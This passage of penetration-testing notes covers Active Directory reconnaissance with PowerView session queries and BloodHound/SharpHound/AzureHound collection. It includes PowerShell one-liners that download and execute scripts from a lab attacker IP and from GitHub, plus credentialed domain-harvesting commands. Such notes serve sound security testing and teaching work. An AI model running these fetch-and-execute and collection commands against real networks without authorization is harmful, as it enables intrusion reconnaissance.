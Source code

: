 ``` powershell
# currently logged in users

Get-NetLoggedon -ComputerName client251

# active sessions to DC

Get-NetSession -ComputerName dc01

```

### Bloodhound

Actual collectors: https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

1. Get Sharphound on target host to collect data for Bloodhound
```
iex(new-object net.webclient).downloadstring("http://10.10.14.43/AzureHound.ps1")

Collecting your data set with AzureHound:

PS C:\> Import-Module Az
PS C:\> Import-Module AzureADPreview
PS C:\> Connect-AzureAD
PS C:\> Connect-AzAccount
PS C:\> . .\AzureHound.ps1
PS C:\> Invoke-AzureHound
```

alternative oneliner

`IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1') ; Invoke-BloodHound`

2. Invoke Bloodhound on target host and harvest data
`invoke-bloodhound -collectionmethod all -ZipFileName exf_blood -domain xxx.local -ldapuser xxxuserxxx -ldappass xxpasswordxxx`

OR

use Bloodhound.py (https://github.com/fox-it/BloodHound.py) to collect AD info:

`./bloodhound.py -d xxx.local -u xxxxxx -p xxx -gc xxx.xxx.local -c all -ns 10.10.10.xxx`

#### Launching Bloodhound and AD Visualization

1. launch neo4j: `sudo neo4j console`
2. launch GUI: `bloodhound`
3. click on Upload Data in the upper right corner
4. Right-Click on free are on the screen and select "Reload Query"

#### Filtering

* set owned principals 
* click on funnel to filter and remove for instance `CanRDP`
* set and find high value targets
